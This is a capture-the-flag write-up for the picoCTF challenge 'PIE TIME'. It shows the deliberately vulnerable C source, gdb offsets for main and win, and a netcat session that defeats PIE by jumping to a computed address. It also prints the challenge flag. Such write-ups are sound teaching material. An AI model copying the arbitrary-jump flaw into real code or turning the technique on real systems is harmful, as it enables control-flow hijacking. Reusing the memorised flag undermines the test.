 ```yaml
---
layout: writeup
title: PIE TIME
tags: Pwn
---
```


## Description

Can you try to get the flag? Beware we have PIE! 
<!--more-->
Connect to the program with netcat:
$ nc rescued-floay.picoctf.net 60696
The program's source code can be downloaded here. The binary can be downloaded here. 

Here is the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

## Solution

This code, prints out the memory address of main, then asks the user to input an address, and that address is then gone to. In order to get the flag, the user needs to input the memory address of the `win` function.

Opening up the compiled binary in `gdb` in order to get the memory address of the `win` and `main` functions.
```bash
$ gdb vuln                
GNU gdb (Debian 16.3-1) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) break main
Breakpoint 1 at 0x1345
(gdb) break win
Breakpoint 2 at 0x12af
```

As can be seen the memory address of `main` was `0x1345` and the memory address of `win` was `0x12af`. This gets a differnce in memory addresses of `150` or `0x96`.

So in order to get the flag, we need to grab the given memory address for `main`, and go back `0x96` memory addresses and then that will run the `win` function.

```bash
$ nc rescued-float.picoctf.net 59371
Address of main: 0x5dfc801b533d
Enter the address to jump to, ex => 0x12345: 0x5dfc801b52a7 # 0x5dfc801b533d - 0x96 = 0x5dfc801b52a7
Your input: 5dfc801b52a7
You won! # It worked, the `win` function is now being run
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b} # Thats the flag
```

As can be seen, the method worked, as the offset between `main` and `win` is constant even with `PIE` enabled. This is because `PIE` randomises the base memory address that the program runs at, not the memory addresses of the code within the program, this effect can be seen if the executable is run multiple times, as the `main` function and `win` function will have different memory addresses.

Finally as can be seen above, the flag is `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}`
